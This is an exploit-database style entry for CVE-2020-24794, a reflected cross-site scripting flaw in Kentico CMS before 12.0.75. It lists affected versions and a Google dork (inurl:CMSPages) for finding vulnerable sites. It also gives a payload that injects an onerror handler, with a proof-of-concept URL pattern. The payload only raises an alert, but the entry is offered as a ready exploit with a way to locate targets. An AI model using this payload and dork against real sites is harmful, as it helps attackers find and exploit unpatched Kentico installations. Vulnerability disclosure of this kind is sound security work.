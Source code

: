 cve-2020-24794

Cross Site Scripting (XSS) vulnerability in Kentico before 12.0.75.

# Exploit Title: XSS-REFLECT
# Google Dork: inurl:CMSPages
# Date: 26/06/2020
# Exploit Author: Andrei Manole
# Vendor Homepage: kentico[.]com
# Version: 7,8,9,10,11,12.0.65
# Tested on: 7,8,9,10,11,12.0.65

Payload: (X("onerror="alert`xss`"))/

POC: target.com/payload

